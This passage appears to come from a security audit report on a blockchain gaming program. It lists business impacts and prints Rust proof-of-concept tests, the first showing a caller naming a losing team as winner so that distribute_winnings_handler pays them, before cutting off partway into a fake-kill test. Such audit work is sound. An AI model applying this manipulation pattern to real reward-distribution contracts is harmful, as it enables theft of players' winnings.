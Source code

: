 ### Business Impact
- [x] **Gaming platform integrity destroyed**
- [x] **Competitive gaming impossible**
- [x] **User trust permanently damaged**
- [x] **Business model based on fair play fails**

## 🔬 Proof of Concept

**Status**: ✅ **COMPLETE - Professional PoC Implemented**
**Location**: `/src/tests/vuln-020-game-state-manipulation-poc.rs`
**Type**: Comprehensive Game Logic Exploitation Suite

### Professional PoC Features
- **6 Attack Vectors**: Winner manipulation, statistics inflation, state transition bypass, player duplication, impossible stats, combined logic bypass
- **Economic Analysis**: $35.5M total risk quantification with ecosystem destruction impact
- **Integration Tests**: Full game logic bypass demonstrations
- **Remediation Demo**: Secure game state management examples

### Game State Manipulation
```rust
#[cfg(test)]
mod test_game_state_manipulation {
    use super::*;

    #[test]
    fn test_winner_manipulation() {
        let mut game_session = create_completed_game_session();

        // Game completed with Team A as the actual winner
        // (based on kills, spawns, or other game metrics)
        let actual_winner = determine_actual_winner(&game_session);
        assert_eq!(actual_winner, 0); // Team A won

        // But attacker can override the winner
        let ctx = create_distribute_context(game_session);

        // Specify Team B as winner despite Team A actually winning
        let result = distribute_winnings_handler(
            ctx,
            "session_123".to_string(),
            1 // ❌ Fake winner: Team B
        );

        // Distribution succeeds with fake winner
        assert!(result.is_ok());

        // Team B gets winnings despite losing
        let team_b_earnings = calculate_team_earnings(1);
        assert!(team_b_earnings > 0);

        // Team A gets nothing despite winning
        let team_a_earnings = calculate_team_earnings(0);
        assert_eq!(team_a_earnings, 0);
    }

    #[test]
    fn test_fake_kill_recording() {
        let mut game_session = create_test_game_session();

        let attacker = game_session.team_a.players[0];
        let victim = game_session.team_b.players[0];
```